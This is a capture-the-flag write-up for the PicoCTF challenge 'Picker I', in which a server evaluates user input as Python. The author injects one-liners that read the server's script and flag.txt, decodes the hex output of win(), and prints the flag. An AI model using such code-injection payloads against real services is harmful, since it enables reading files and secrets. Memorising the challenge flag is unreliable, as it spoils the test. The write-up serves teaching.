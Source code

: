 ```yaml
---
title: "PicoCTF: Picker I"
summary: "Using the eval function? Not good."
date: 2024-09-07
tags: ["picoctf"]
categories: ["write-up", "reverse_engineering"]
draft: false
---
```

# Investigating the Server
When we connect, we are prompted to input `getRandomNumber`. That works, but what happens if we provide an invalid input?
```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber
4

Try entering "getRandomNumber" without the double quotes...
==> 4
'int' object is not callable


```

Providing invalid input shows what looks like a Python error message. This suggests that user input might not be sanitized properly. Let's test if we can provide Python input directly:

```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber(123123)
getRandomNumber() takes 0 positional arguments but 1 was given

```

It turns out we can execute Python code! This means that we can now explore the contents of the Python script running on the server.

So, let's try printing the contents of the file with this one liner:
```python3
print(open(__file__).read())
```

And, that outputs the contents of the entire Python script running on the server!

# Investigating the Python File

Parsing through the output, we see this function:
```python3
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)

```

Now, we know that `flag.txt` is being read from the Python script. So, we have two choices:
1. Open `flag.txt` using arbitrary Python code
2. Reverse the encryption provided in the `win()` function

## Opening flag.txt Directly
Remember how we read the contents of the servers Python script? Because we know where `flag.txt` is... we can just open the file path directly.

```python3
print(open("flag.txt").read())
```

This outputs the flag: `picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}`

## Reversing the Encryption

Opening the file directly is too easy! Let's have some fun.

After executing `win()` on the server, we get this returned to us:
```
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d
```

Remember that `win()` function we discovered in the Python file? It converted each character of the flag into the hex representation of the character's unicode value (`ord(c)`):

```python3
...
for c in flag:
    str_flag += str(hex(ord(c))) + ' '
```

We simply just need to reverse the operations provided in the above code snippet.

```python3
# list comprehensions are super, super nice to know.
# https://www.programiz.com/python-programming/list-comprehension

# hex string from win() output
starting_flag = "0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x34 0x5f 0x64 0x31 0x34 0x6d 0x30 0x6e 0x64 0x5f 0x31 0x6e 0x5f 0x37 0x68 0x33 0x5f 0x72 0x30 0x75 0x67 0x68 0x5f 0x63 0x65 0x34 0x62 0x35 0x64 0x35 0x62 0x7d"

# split the string into individual hex codes
split_flag = starting_flag.split(" ")

# convert each hex code back its original character
transformed_flag = "".join(chr(int(word, 16)) for word in split_flag)

print(transformed_flag) # picoCTF{4_d14m0nd_1n_7h3_r0ugh_ce4b5d5b}
```
